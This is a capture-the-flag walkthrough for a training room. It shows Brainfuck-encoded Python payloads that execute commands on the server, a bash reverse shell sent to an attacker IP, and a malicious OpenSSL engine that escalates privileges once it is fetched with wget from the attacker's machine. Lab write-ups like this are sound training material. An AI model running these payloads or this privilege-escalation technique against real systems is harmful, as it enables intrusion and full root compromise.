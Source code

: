 # [Mindgames](https://tryhackme.com/room/mindgames)

## Just a terrible idea...

# Capture the flags

## No hints. Hack it. Don't give up if you get stuck, enumerate harder

### User flag.

_user.txt_

1. Perform network enumeration to identify open services

```bash
nmap <TARGET_IP>
```

[SCREEN01]

2. Navigate to `http://<TARGET_IP>` to examine the web application

   - The page contains "Hello, World", and Fibonacci sequence code written in Python-Brainfuck programming language
   - Features an interactive Brainfuck compiler/interpreter

3. Research Brainfuck syntax using resources like [dCode Brainfuck Decoder](https://www.dcode.fr/brainfuck-language).

4. Convert Python payload to Brainfuck, and craft payload to read the user flag

```python
# Python code:
__import__('os').system('ls -la ../')
```

```
Brainfuck:
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>-----..++++++++++.++++.+++.-.+++.++.---------------------..<<++++++++++.-.>>++++++++++++++++.++++.<<.++.+++++.>>.++++++.------.+.---------------.++++++++.<<------.-.>>-.+++++++.<<-------.+++++++++++++.>>-------.-----------.<<-------------.++++++++++++++..+.--------.++.
```

[SCREEN02]

```python
# Python code
__import__('os').system('cat ../user.txt')
```

```
Brainfuck:
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>-----..++++++++++.++++.+++.-.+++.++.---------------------..<<++++++++++.-.>>++++++++++++++++.++++.<<.++.+++++.>>.++++++.------.+.---------------.++++++++.<<------.-.>>----------.--.+++++++++++++++++++.<<-------.++++++++++++++..+.>>+.--.--------------.+++++++++++++.<<-.>>++.++++.----.<<-------.++.
```

[SCREEN03]

---

### Root flag.

_/root/root.txt_

1. Set up netcat listener on attacking machine

```bash
nc -lvnp 4444
```

2. Create Python reverse shell payload

```python
__import__('os').system('/bin/bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1"')
```

```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>-----..++++++++++.++++.+++.-.+++.++.---------------------..<<++++++++++.-.>>++++++++++++++++.++++.<<.++.+++++.>>.++++++.------.+.---------------.++++++++.<<------.-.>>-----------.-.++++++++++++++++++.-----------.<<-------.+++++++++++++.>>+.<<-------------.>--------.<++++++.------.+++++++++++++++.>>-----.+.+++++++++++++++++.<<.>>--.-----------------.+++++++++++++.<<.++.-.--.+++.-.--.+++.-.++.----.>-----.<+.+++++....--------------------.>---------.++++++++++++++.<++++++.+++++++++++.----------.++.
```

3. Upgrade to fully interactive shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

4. Search for capabilities-based privilege escalation vectors

```bash
getcap -r / 2>/dev/null
```

[SCREEN04]

5. Ensure development libraries are available

```bash
sudo apt-get install libssl-dev
```

6. Create malicious OpenSSL engine

```c
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

7. Compile the malicious engine as a shared library

```bash
gcc -fPIC -o exploit.o -c exploit.c
gcc -shared -o exploit.so -lcrypto exploit.o
```

8. Set up HTTP server on attacking machine

```bash
python -m SimpleHTTPServer
```

9. On target machine, download and execute the exploit

```bash
cd /tmp
wget <ATTACKER_IP>:8000/exploit.so
openssl req -engine ./exploit.so
cat /root/root.txt
```

[SCREEN05]
